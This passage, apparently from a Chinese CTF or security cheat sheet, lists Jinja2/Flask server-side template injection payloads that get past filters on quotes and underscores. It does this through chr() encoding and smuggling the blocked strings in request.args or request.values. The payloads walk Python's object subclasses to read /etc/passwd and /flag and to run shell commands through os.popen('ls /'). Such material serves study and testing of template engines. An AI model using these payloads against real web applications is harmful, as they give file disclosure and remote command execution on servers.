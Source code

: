 

##### 引号

###### **利用chr()绕过**

先获取`chr()`函数，赋值给chr，后面再拼接成一个字符串

```python
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

###### **request对象**

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd


{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

如果过滤了`args`，可以将其中的`request.args`改为`request.values`，POST和GET两种方法传递的数据`request.values`都可以接收。



##### **下划线__**

###### **request对象**

和上面一样，我们这里利用request绕过

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__ 
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
